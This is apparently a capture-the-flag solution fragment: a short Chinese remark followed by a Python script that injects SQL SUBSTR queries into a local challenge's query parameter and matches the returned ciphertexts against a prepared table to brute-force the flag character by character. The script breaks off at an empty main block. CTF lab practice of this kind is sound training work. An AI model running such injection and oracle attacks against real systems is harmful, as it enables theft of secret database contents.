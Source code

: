 第二部就是爆破

## EXP

```py
from pwn import *
from base64 import b64encode, b64decode
from Crypto.Random import get_random_bytes
from Crypto.Util.strxor import strxor
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import requests

known_plaintext_ciphertext = {}
flag = ""

def my_data_processing(xxx):
    print(f"[*]info : {xxx}")
    print(xxx)
    print(type(xxx))

def prepare(i):
    global known_plaintext_ciphertext
    x = chr(i)
    response = requests.get(f"http://challenge.localhost?query='{x}'")
    # print(f"Response Text: {response.text}")
    # print("TYPE OF TEXT : " + str(type(response.text)))
    x = response.text.strip().split("<pre>")
    if len(x) <= 2:
        return
    x = x[2].strip().split("/<pre>")
    x = x[0][:24]
    known_plaintext_ciphertext[chr(i)] = x
    

def compare(index):
    global known_plaintext_ciphertext
    x = f"SUBSTR(flag,{index},1)"
    # x = f"SUBSTR(flag,{index},1)"
    response = requests.get(f"http://challenge.localhost?query={x}")
    x = response.text.strip().split("<pre>")
    print(x)
    if len(x) <= 2:
        return
    x = x[2].strip().split("/<pre>")
    x = x[0][:24]
    # print(x)
    for key, value in known_plaintext_ciphertext.items():
        if x == value:
            print(f"[*] Found matching ciphertext for {key}")
            global flag
            flag += key # Convert key to string and concatenate
            break  # Once a match is found, stop further checks
    
def solve_challenge():
    for i in range(32, 127):
        prepare(i)
    print(known_plaintext_ciphertext)

    # flag长度为55，所以sql的substr的index是1-55，所以range是(1,56)
    for i in range(1,56):
        compare(i)

if __name__ == "__main__":
```
